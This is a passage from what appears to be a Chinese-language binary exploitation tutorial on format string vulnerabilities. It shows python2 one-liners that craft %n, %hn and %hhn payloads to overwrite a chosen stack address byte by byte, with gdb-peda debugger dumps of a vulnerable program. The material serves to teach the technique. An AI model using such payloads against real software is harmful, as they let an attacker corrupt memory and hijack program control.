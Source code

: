 试一下：

```text
$ python2 -c 'print("A%15$hhn"+"\x38\xd5\xff\xff")' > text
0xffffd530:     0xffffd564      0x00000001      0x88888801      0xffffffff

$ python2 -c 'print("A%15$hnA"+"\x38\xd5\xff\xff")' > text
0xffffd530:     0xffffd564      0x00000001      0x88880001      0xffffffff

$ python2 -c 'print("A%15$nAA"+"\x38\xd5\xff\xff")' > text
0xffffd530:     0xffffd564      0x00000001      0x00000001      0xffffffff
```

于是，我们就可以逐字节地覆盖，从而大大节省了内存空间。这里我们尝试写入 `0x12345678` 到地址 `0xffffd538`，首先使用 `AAAABBBBCCCCDDDD` 作为输入：

```text
gdb-peda$ r
AAAABBBBCCCCDDDD
[----------------------------------registers-----------------------------------]
EAX: 0xffffd564 ("AAAABBBBCCCCDDDD")
EBX: 0x804a000 --> 0x8049f14 --> 0x1
ECX: 0x1
EDX: 0xf7f9883c --> 0x0
ESI: 0xf7f96e68 --> 0x1bad90
EDI: 0x0
EBP: 0xffffd5f8 --> 0x0
ESP: 0xffffd52c --> 0x8048520 (<main+138>:      add    esp,0x20)
EIP: 0xf7e27c20 (<printf>:      call   0xf7f06d17 <__x86.get_pc_thunk.ax>)
EFLAGS: 0x292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0xf7e27c1b <fprintf+27>:     ret
   0xf7e27c1c:  xchg   ax,ax
   0xf7e27c1e:  xchg   ax,ax
=> 0xf7e27c20 <printf>: call   0xf7f06d17 <__x86.get_pc_thunk.ax>
   0xf7e27c25 <printf+5>:       add    eax,0x16f243
   0xf7e27c2a <printf+10>:      sub    esp,0xc
   0xf7e27c2d <printf+13>:      mov    eax,DWORD PTR [eax+0x124]
   0xf7e27c33 <printf+19>:      lea    edx,[esp+0x14]
No argument
[------------------------------------stack-------------------------------------]
0000| 0xffffd52c --> 0x8048520 (<main+138>:     add    esp,0x20)
0004| 0xffffd530 --> 0xffffd564 ("AAAABBBBCCCCDDDD")
0008| 0xffffd534 --> 0x1
0012| 0xffffd538 --> 0x88888888
0016| 0xffffd53c --> 0xffffffff
0020| 0xffffd540 --> 0xffffd55a ("ABCD")
0024| 0xffffd544 --> 0xffffd564 ("AAAABBBBCCCCDDDD")
0028| 0xffffd548 --> 0x80481fc --> 0x38 ('8')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0xf7e27c20 in printf () from /usr/lib32/libc.so.6
gdb-peda$ x/20x $esp
0xffffd52c:     0x08048520      0xffffd564      0x00000001      0x88888888
0xffffd53c:     0xffffffff      0xffffd55a      0xffffd564      0x080481fc
0xffffd54c:     0x080484b0      0xf7ffda54      0x00000001      0x424135d0
0xffffd55c:     0x00004443      0x00000000      0x41414141      0x42424242
0xffffd56c:     0x43434343      0x44444444      0x00000000      0x000000c2
gdb-peda$ x/4wb 0xffffd538
0xffffd538:     0x88    0x88    0x88    0x88
```
